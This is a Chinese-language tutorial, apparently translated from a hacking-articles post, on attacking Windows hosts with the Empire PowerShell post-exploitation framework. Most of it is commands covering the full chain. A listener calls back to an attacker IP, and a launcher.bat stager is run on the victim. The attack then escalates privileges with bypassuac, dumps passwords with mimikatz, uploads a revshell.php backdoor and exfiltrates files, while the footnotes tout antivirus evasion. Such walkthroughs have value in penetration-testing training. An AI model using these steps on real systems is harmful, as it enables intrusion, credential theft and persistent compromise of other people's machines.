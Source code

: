 ## 使用Empire进行黑客攻击 - PowerShell后利用代理

### **Empire介绍 ** [^1]

**重要性 ** [^2]

### **术语**

- **监听器：**监听器是一个从我们正在攻击的机器上侦听连接的进程。这有助于帝国将战利品发回攻击者的计算机。
- **Stager：** stager是一段代码，允许我们的恶意代码通过受感染主机上的代理运行。
- **代理：**代理是一种程序，用于维护计算机与受感染主机之间的连接。
- **模块：**执行我们的恶意命令，这些命令可以收集凭据并升级我们的权限，如上所述。

### **安装**

`git clone https://github.com/EmpireProject/Empire.git`

```bash
cd Empire/
ls
cd setup/
ls
./install.sh
./reset.sh
```

`listeners`

`uselistener <tab> <tab>`

`uselistener http` [^3]

`info` [^4]

`set Name test` [^5]

`set Host http://192.168.1.107 & execute` [^6]

`back` [^7]

`usestager <tabt> <tab> `[^8]

`usestager windows/launcher_bat & info`

`set Listener test & execute` [^9]

`agents` [^10]

`rename ZAF3GT5W raajpc` [^11]

`interact raajpc` [^12]

**bypassuac http**[^13]

`rename HE3K45LN adminraj` [^14]

`list`

`interact adminraj`

`<tab> <tab>`  [^15]

`help`

`mimikatz` [^16]

```bash
# 使用UAC提权模块
interace A8Uxxxx
usemodule privesc/bypassuac
set Listener test
execute
```

### **creds** [^17]

`shell netstat -ano`

```bash
# 因为windows中的默认shell目录是“ C：/ windows / system32 ”; 让我们尝试移动到另一个目录并尝试从那里下载一些文件，我们也可以在该位置上传一些内容，例如，我们可以上传后门！
shell cd C:\Users\raj\Desktop
shell dir
download 6.png
upload /root/Desktop/revshell.php
# 下载文件的位置 Empire directory/downloads/<agent name>/<agent shell location>
# 例如: ~/Empire/downloads/admniraj/c:/Users/raj/Desktop/
```

`usemodule <tab> <tab>` [^18]

```bash
usemodule trollsploit/message
options
set MsgText you have been hacked
execute
y
```

[原文](https://www.hackingarticles.in/hacking-with-empire-powershell-post-exploitation-agent/)

---

[^1]: Empire是一个后开发框架。它是一个纯粹的PowerShell代理，专注于python，具有加密安全通信和灵活架构的附加功能。Empire具有在不需要PowerShell.exe的情况下执行PowerShell代理的方法。它可以迅速采用可后期利用的模块，涵盖范围广泛，从键盘记录器到mimikatz等。这个框架是PowerShell Empire和Python Empire项目的组合; 这使它用户友好和方便。PowerShell Empire于2015年问世，Python Empire于2016年问世。它类似于Metasploit和Meterpreter。但由于它是命令和控制工具，它允许您更有效地控制PC
[^2]: PowerShell提供了丰富的攻击性优势，进一步包括.NET的全部访问，applock白名单以及对Win32的直接访问。它还在内存中构建恶意二进制文件。它提供C2功能，允许您在第一阶段之后植入第二阶段。它也可以用于横向移动。随着它与其他框架相比发展迅速，它非常方便。此外，由于它不需要PowerShell.exe，它可以让您绕过反病毒。因此，最好使用PowerShell Empire
[^3]: 此命令在本地端口80上创建一个侦听器。如果端口80已经被像Apache这样的服务占用，请确保停止该服务，因为此侦听器是http侦听器只能在端口80上工作
[^4]: 查看所有设置
[^5]: 更改我们的监听器的名称，因为它有助于记住并批量所有被激活的监听器
[^6]: 通常，此侦听器会自动占用本地主机IP，但为了以防万一，您可以使用以下命令设置IP
[^7]: 从监听器接口返回，以便我们可以执行我们的模块
[^8]: 查看Empire提供的所有模块
[^9]: 在设置侦听器测试并创建`/tmp/launcher.bat`之后，上述两个命令将执行我们的漏洞利用。使用`python`服务器在受害者的PC中执行此文件。当文件将执行时，您将有一个会话
[^10]: 检查您的会话类型
[^11]: 使用上面的命令，您可以看到已激活会话。您可以更改会话的名称，因为默认情况下给出的名称非常复杂且难以记住
[^12]: 使用这个命令访问会话
[^13]: 获得对会话的访问权限后，请尝试使用以下命令获取管理会话
[^14]: 执行`bypassuac`命令后，将打开另一个会话。键入这个命令重命名该会话
[^15]: **<tab> <tab>**帮助我们查看shell中的所有选项。有几种选择对后期开发很有帮助。如信息，工作，列表等
[^16]: 我们尝试运行  **mimikatz**  来获取用户的密码。由于  **mimikatz**  不能在普通的guest用户shell上运行，并且只能在admin shell上运行; 这也证明我们必须实现管理员访问权限，以便我们可以使用mimikatz
[^17]: 用明文及其哈希格式转储任何用户的凭据或密码
[^18]: 该命令将显示所有可用模块并可供使用